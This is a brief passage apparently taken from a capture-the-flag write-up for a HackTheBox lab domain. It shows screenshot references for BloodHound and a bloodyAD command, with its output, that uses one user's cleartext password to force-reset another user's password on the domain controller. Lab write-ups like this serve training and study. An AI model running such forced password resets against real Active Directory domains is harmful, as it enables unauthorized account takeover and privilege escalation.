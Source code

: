 ![alt text](<../assets/images/Screenshot 2025-03-15 at 00-21-12 BloodHound.png>)

u can use [autobloodyAD](https://github.com/lineeralgebra/autobloodyAD)
![alt text](<../assets/images/Screenshot_2025-03-15_00_22_36.png>)

```bash
➜  administrator bloodyAD --host DC.administrator.htb -d administrator.htb -u olivia -p ichliebedich set password michael NewPassword123

[+] Password changed successfully!
```
